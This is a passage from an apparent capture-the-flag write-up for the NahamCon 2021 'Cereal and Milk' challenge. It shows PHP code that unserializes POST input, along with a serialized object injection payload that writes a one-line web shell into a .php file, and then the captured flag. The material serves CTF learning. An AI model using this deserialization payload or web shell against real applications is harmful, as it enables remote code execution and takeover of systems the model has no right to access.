 ```
    public function cereal_and_milk()
    {
     echo $this->cereal . " is the best cereal btw.";   
    }

}

$input = $_POST['serdata'];
$output = unserialize($input);

$app = new CerealAndMilk;
$app -> cereal_and_milk($output);



?>
```

- log.php

```
<?php

class log
{
    public function __destruct()
        {
            $request_log = fopen($this->logs , "a");
            fwrite($request_log, $this->request);
            fwrite($request_log, "\r\n");
            fclose($request_log);
        }
}

?>
```

by reading the code we understand that our input is unserialized by the application, and we just control the log filename`($logs)` we want and the content`($request)` by using this serialize payload below:

![../images/nahamcon21/php-doctor.png](../images/nahamcon21/php-doctor.png)

```
O:3:"log":4:{s:4:"logs";s:16:"yerabajigur5.php";s:7:"request";s:28:"<?php $_GET[1]($_GET[2]); ?>";s:6:"cereal";s:5:"XXXXX";s:4:"milk";s:2:"AA"}
```

Found the flag here http://challenge.nahamcon.com:31745/ndwbr7pVKNCrhs-CerealnMilk/flag.txt

`flag{70385676892a2a813a666961ddd6f899}`

---
# [Medium] Bad Blog - 469 points (122 Solves)
